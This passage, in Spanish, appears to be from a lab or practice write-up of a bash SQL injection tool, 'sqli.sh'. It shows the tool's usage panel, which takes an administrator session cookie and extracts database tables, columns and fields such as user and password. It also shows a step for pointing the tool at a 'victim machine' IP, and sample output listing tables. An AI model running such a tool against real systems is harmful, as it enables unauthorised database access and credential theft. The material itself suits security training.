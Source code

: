 ```bash
		else
			extractFields $number_output
		fi
	fi
fi
```

Se ve de la siguiente manera:

```bash
~$>./sqli.sh

[!] Use: ./sqli.sh
--------------------------------------------------------------------------------

        [-c] Cookie
        [-e] Extract
                tables
                columns
                        [-t] Table name
                fields
                        [-f] Fields names (ceparate by ,)
        [-n] Number output
        [-h] Show this help panel

        Use examples:
                ./sqli.sh -c eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiO -e tables -n 80
                ./sqli.sh -c eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiO -e columns -t Users -n 30
                ./sqli.sh -c eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiO -e fields -f id,user,password -t Users -n 10
```

Lo primero que deberías hacer es cambiar la ip que está por defecto en el código del script por la IP que tengas asignada en tu máquina víctima

```bash
declare -r url="http://127.0.0.1" # <- CHANGE THIS
```
Una vez hecho esto empezaremos a listar las tablas existentes en la base de datos usando nuestra herramienta de la siguiente manera:

```bash
~$>./sqli.sh -c COOKIE_DEL_USUARIO_ADMINISTRADOR -e tables -n 80
```
```bash
[+] Table [0]: ADMINISTRABLE_ROLE_AUTHORIZATIONS

[+] Table [1]: APPLICABLE_ROLES					[+] Table [41]: INNODB_TABLESTATS

[+] Table [2]: CHARACTER_SETS					[+] Table [42]: INNODB_TEMP_TABLE_INFO

[+] Table [3]: CHECK_CONSTRAINTS				[+] Table [43]: INNODB_TRX

[+] Table [4]: COLLATIONS					[+] Table [44]: INNODB_VIRTUAL

[+] Table [5]: COLLATION_CHARACTER_SET_APPLICABILITY		[+] Table [45]: KEYWORDS

[+] Table [6]: COLUMNS						[+] Table [46]: KEY_COLUMN_USAGE

[+] Table [7]: COLUMNS_EXTENSIONS				[+] Table [47]: OPTIMIZER_TRACE

[+] Table [8]: COLUMN_PRIVILEGES				[+] Table [48]: PARAMETERS

[+] Table [9]: COLUMN_STATISTICS				[+] Table [49]: PARTITIONS

[+] Table [10]: ENABLED_ROLES					[+] Table [50]: PLUGINS
```